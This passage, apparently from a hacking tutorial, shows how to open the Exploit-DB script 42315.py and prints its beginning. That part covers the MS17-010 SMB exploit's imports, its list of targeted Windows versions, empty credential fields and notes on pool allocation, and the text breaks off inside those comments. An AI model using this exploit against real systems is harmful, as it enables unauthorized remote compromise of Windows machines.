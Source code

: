 ```
42315.py
```

Now we can take a look at the [source code](https://null-byte.wonderhowto.com/forum/complete-guide-creating-and-hosting-phishing-page-for-beginners-0187744/) for more information about this particular exploit. This is quite a long file, so we can use the [**less**](https://null-byte.wonderhowto.com/how-to/hack-like-pro-linux-basics-for-aspiring-hacker-part-3-managing-directories-files-0147293/) command to view it from the top.

```
less 42315.py
```

```
#!/usr/bin/python
from impacket import smb, smbconnection
from mysmb import MYSMB
from struct import pack, unpack, unpack_from
import sys
import socket
import time

'''
MS17-010 exploit for Windows 2000 and later by sleepya

EDB Note: mysmb.py can be found here ~ https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py

Note:
- The exploit should never crash a target (chance should be nearly 0%)
- The exploit use the bug same as eternalromance and eternalsynergy, so named pipe is needed

Tested on:
- Windows 2016 x64
- Windows 10 Pro Build 10240 x64
- Windows 2012 R2 x64
- Windows 8.1 x64
- Windows 2008 R2 SP1 x64
- Windows 7 SP1 x64
- Windows 2008 SP1 x64
- Windows 2003 R2 SP2 x64
- Windows XP SP2 x64
- Windows 8.1 x86
- Windows 7 SP1 x86
- Windows 2008 SP1 x86
- Windows 2003 SP2 x86
- Windows XP SP3 x86
- Windows 2000 SP4 x86
'''

USERNAME = ''
PASSWORD = ''

'''
A transaction with empty setup:
- it is allocated from paged pool (same as other transaction types) on Windows 7 and later
- it is allocated from private heap (RtlAllocateHeap()) with no on use it on Windows Vista and earlier
- no lookaside or caching method for allocating it

Note: method name is from NSA eternalromance

For Windows 7 and later, it is good to use matched pair method (one is large pool and another one is fit
```